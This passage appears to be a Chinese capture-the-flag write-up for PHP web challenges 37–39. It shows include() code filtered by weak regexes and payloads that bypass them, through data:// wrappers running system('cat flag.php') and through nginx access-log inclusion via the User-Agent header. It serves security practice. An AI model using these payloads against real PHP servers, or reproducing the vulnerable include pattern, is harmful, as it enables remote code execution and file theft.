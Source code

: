 

```
/?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg== //<?php system('cat flag.php');?>

/?c=data://text/plain,<?php system('cat fla*');?>

还可以配合UA头执行日志包含
c=/var/log/nginx/access.log
```



## web38

```
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```



```
/?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==

也可以日志包含
c=/var/log/nginx/access.log
```



## web39

data://text/plain, 这样就相当于执行了php语句 .php 因为前面的php语句已经闭合了，所以后面的.php会被当成html页面直接显示在页面上，起不到什么作用

```
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```
